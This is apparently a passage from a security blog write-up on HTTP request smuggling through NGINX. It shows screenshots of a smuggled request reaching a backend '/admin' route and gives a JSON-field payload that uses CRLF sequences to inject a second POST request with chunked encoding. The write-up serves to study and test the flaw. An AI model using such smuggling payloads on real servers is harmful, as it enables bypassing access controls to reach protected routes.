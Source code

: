 ![nginx_200](https://raw.githubusercontent.com/dhmosfunk/dhmosfunk.github.io/refs/heads/master/images/nginx_200.png)

As we can see in the screenshot, NGINX returns a 200 status code and the requests.log file in the backend application shows that the request was successfully smuggled and the backend application received the request to the `/admin` route.

![nginx_backend](https://raw.githubusercontent.com/dhmosfunk/dhmosfunk.github.io/refs/heads/master/images/nginx_backend.png)

Now? There are some other payloads that can be used to identify successful request smuggling causing delays on the smuggled request.

The below payload causes a delay on the smuggled request with invalid transfer-encoding chunked.

```
"foo":"bar \r\n\r\nPOST /delay HTTP/1.1\r\nHost: localhost\r\nContent-Type: application/x-www-form-urlencoded\r\nTransfer-Encoding: chunked\r\n\r\n9999\r\n"
```
